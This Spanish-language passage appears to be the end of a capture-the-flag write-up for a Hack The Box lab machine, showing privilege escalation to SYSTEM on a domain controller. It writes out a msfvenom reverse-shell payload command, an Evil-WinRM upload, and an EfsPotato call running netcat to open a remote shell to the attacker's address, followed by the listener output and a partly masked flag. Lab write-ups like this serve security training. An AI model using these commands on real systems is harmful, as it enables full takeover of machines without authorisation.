[+] Get Token: 888
[!] process with pid: 5548 created.
==============================
nt authority\system
```

Y somos el usuario con los mas maximos privilegios del DC, es opcional tener una shell interactiva pero al tenerla te da las mismas ventajas que una shell tradicional, solo que ahora, puedes ejecutar, instalar, borrar, modificar, y hacer cualquier cosa sin restricciones.

Subamos una shell sencilla que generamos con msfvenom de la siguiente forma:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

Y la subida a el DC:

```powershell
*Evil-WinRM* PS C:\tools> upload ../shell.exe

Info: Uploading /home/unknown/Documents/Ctfs/htb/labs/haze/Writeup/reverse_shell_splunk/../shell.exe to C:\tools\shell.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\tools> 
```

Y por ultimo nos ponemos en escucha, y con el EfsPotato lo ejecutamos de la siguiente forma:

(Bueno, eso no funciono, pero bueno. Tenemos a netcat para Windows)

Asumire que lo tienes descargado asi que una vez que lo subamos, ejecutamos este otro comando (Estando en escucha desde otra consola):

```powershell
PS C:\tools> .\EfsPotato.exe "C:\tools\nc64.exe -e cmd 10.10.14.25 4444"
```

Si se queda tildado y recibimos lo siguiente:

```powershell
❯ rlwrap -cAr nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.61 60468
Microsoft Windows [Version 10.0.20348.3328]
(c) Microsoft Corporation. All rights reserved.

C:\tools>
```

Podemos dar por terminada la maquina :]

Confirmemos nuestros privilegios y veamos si tenemos acceso para leer la flag:

```powershell
C:\tools>whoami
whoami
nt authority\system

C:\tools>dir C:\users\administrator
dir C:\users\administrator
 Volume in drive C has no label.
 Volume Serial Number is 3985-943C

 Directory of C:\users\administrator

03/05/2025  12:29 AM    <DIR>          .
03/05/2025  06:49 PM    <DIR>          ..
03/20/2025  02:33 PM    <DIR>          .splunk
03/05/2025  12:00 AM    <DIR>          3D Objects
03/05/2025  12:00 AM    <DIR>          Contacts
03/05/2025  06:46 PM    <DIR>          Desktop
03/19/2025  01:32 PM    <DIR>          Documents
03/05/2025  12:00 AM    <DIR>          Downloads
03/05/2025  12:00 AM    <DIR>          Favorites
03/19/2025  01:32 PM    <DIR>          Links
03/05/2025  12:00 AM    <DIR>          Music
03/05/2025  12:00 AM    <DIR>          Pictures
03/05/2025  12:00 AM    <DIR>          Saved Games
03/05/2025  12:00 AM    <DIR>          Searches
03/05/2025  12:00 AM    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)   4,292,734,976 bytes free

C:\tools>type c:\users\administrator\desktop\root.txt
1259aacd*****************

C:\tools>
```

Y asi ya estaria la maquina completada, gracias por leerme y ten un feliz resto del dia/tarde/noche :]